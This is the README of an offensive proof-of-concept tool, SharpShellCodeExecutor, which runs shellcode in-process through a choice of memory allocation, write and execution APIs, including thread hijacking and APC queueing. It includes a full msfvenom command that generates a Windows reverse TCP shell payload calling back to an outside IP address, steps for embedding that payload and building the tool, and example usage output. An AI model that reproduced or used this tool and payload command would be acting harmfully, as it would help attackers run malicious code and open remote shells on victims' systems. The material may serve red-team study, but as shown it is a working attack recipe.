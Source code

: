 # SharpShellCodeExecutor
A POC that shows different methods of executing shellcode within the same process.

It allows specifying different options for the three steps needed to execute shellcode (in most cases).
1. Allocate memory with RWX permissions. This can be done using the Win32 API's VirtualAlloc, VirtualAllocEx, VirtualAllocExNuma , WriteProcessMemory or the native API's NtCreateSection/NtMapSectionView.
2. Write shellcode to newly allocated memory. This can be done using the API's RtlMovememory, WriteProcessMemory or via Marshal.Copy.
3. Execute. This can be done via Classic (CreateThread), Delegate (using Delegate + Function Pointers), LocalThread Highjacking (creating a new thread and pointing it's RIP to the place where the RWX shellcode is stored or using the APC User Queue + NtTestAlert.

## How to compile
First generate shellcode using msfvenom (or any other method) as a C# byte array with the variable name being shellCode.
Example:

msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.56.105 LPORT=80 -f csharp -v shellCode

And replace the variable at Program.cs (line 10) and add the static keyword to the beginning, e.g.:

 static byte[] shellCode = new byte[460] {
            0xfc,... 
            };

Then use Visual Studio to build the project.

## How to run

Run the executeable and optionally specify the following arguments to specify the memory allocation, write and execution method.
```
ShellCodeExecutor.exe -h
ShellCodeExecutor.exe: Executes shellcode stored in shellCode variable within the same process, allows specifying the memory allocation, shellcode writing method and shellcode execution method
Arguments
         -a <Allocation_Method>: Specifies which allocation method to use. Available choices:  VirtualAlloc (Default), VirtualAllocEx, VirtualAllocExNuma, NtCreateSection
         -h : Show help menu.
         -s <ShellCode_Execution_Method>: Specifies which shellcode execution method to use. Available choices:  Classic (Default), Delegate, LocalThreadHighjack, QueueUserAPC
         -w <Write_Method>: Specifies which write method to use when writing shellcode to memory. Available choices:  WriteProcessMemory (Default), MarshalCopy, RtlMoveMemory
```
## Example run
```
ShellCodeExecutor.exe -a VirtualAllocEx -s QueueUserAPC -w RtlMoveMemory
[+] Using selected Allocation VirtualAllocEx, Write Method RtlMoveMemory, Shellcode Exexution QueueUserAPC
[+] Allocating Memory
[+] Writing Shellcode to Memory
[+] Executing Memory
```
